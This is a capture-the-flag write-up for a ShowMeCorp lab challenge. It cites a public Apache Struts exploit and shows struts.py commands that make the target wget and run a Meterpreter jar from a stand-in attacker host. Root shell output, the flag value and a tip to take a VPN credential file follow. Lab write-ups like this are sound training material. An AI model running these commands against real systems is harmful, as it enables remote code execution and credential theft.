 # Find the Hidden File

## Points 200

It looks like a web developer left their work-in-progress exposed. Find the file that will allow you advance in your exploits against ShowMeCorp.

http://webdev.showmecorp.com:8080/showcase/

(There is a flag.txt file you must retrieve)

(There is another file to retrieve that you will need to progress. This file will contain additional scope information.)

(This target will reset every 60 minutes, at the start of the hour)


## Answer

flag-47685a0173e7b9ff3f513fb33d428e1f

Exploit: https://www.exploit-db.com/exploits/42324/


### Get shell

###Generate a Java Meterpreter payload and handler




### Use exploit to download and run payload

```
$ python struts.py 'http://webdev.showmecorp.com:8080/showcase/integration/saveGangster.action' "wget -O /tmp/bob.jar http://evilserverontheinternet/bob.jar"
$ python struts.py 'http://webdev.showmecorp.com:8080/showcase/integration/saveGangster.action' "java -jar /tmp/bob.jar"
```

### Grab the flag
```
meterpreter > getuid
Server username: root
meterpreter > ls
Listing: /usr/local/tomcat
==========================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100666/rw-rw-rw-  19539  fil   2018-09-04 22:30:39 +0000  BUILDING.txt
100666/rw-rw-rw-  6090   fil   2018-09-04 22:30:39 +0000  CONTRIBUTING.md
100666/rw-rw-rw-  57092  fil   2018-09-04 22:30:39 +0000  LICENSE
100666/rw-rw-rw-  1726   fil   2018-09-04 22:30:39 +0000  NOTICE
100666/rw-rw-rw-  3255   fil   2018-09-04 22:30:39 +0000  README.md
100666/rw-rw-rw-  7142   fil   2018-09-04 22:30:39 +0000  RELEASE-NOTES
100666/rw-rw-rw-  16262  fil   2018-09-04 22:30:39 +0000  RUNNING.txt
100666/rw-rw-rw-  8814   fil   2018-09-24 15:47:22 +0000  SusanStone.ovpn
40776/rwxrwxrw-   4096   dir   2018-09-12 20:50:38 +0000  bin
40776/rwxrwxrw-   4096   dir   2018-09-24 16:17:57 +0000  conf
100666/rw-rw-rw-  37     fil   2018-09-24 15:53:16 +0000  flag.txt
40776/rwxrwxrw-   4096   dir   2018-09-12 20:50:37 +0000  include
40776/rwxrwxrw-   4096   dir   2018-09-12 20:50:28 +0000  lib
40776/rwxrwxrw-   4096   dir   2018-10-19 21:02:56 +0000  logs
40776/rwxrwxrw-   4096   dir   2018-09-12 20:50:37 +0000  native-jni-lib
40776/rwxrwxrw-   4096   dir   2018-09-12 20:50:28 +0000  temp
100666/rw-rw-rw-  45015  fil   2018-09-24 19:24:07 +0000  velocity.log
40776/rwxrwxrw-   4096   dir   2018-09-24 16:17:57 +0000  webapps
40776/rwxrwxrw-   4096   dir   2018-09-24 16:17:58 +0000  work

meterpreter > cat flag.txt
flag-47685a0173e7b9ff3f513fb33d428e1f
```

Don't forget to snag `SusanStone.ovpn` it's the only way to get the other hosts.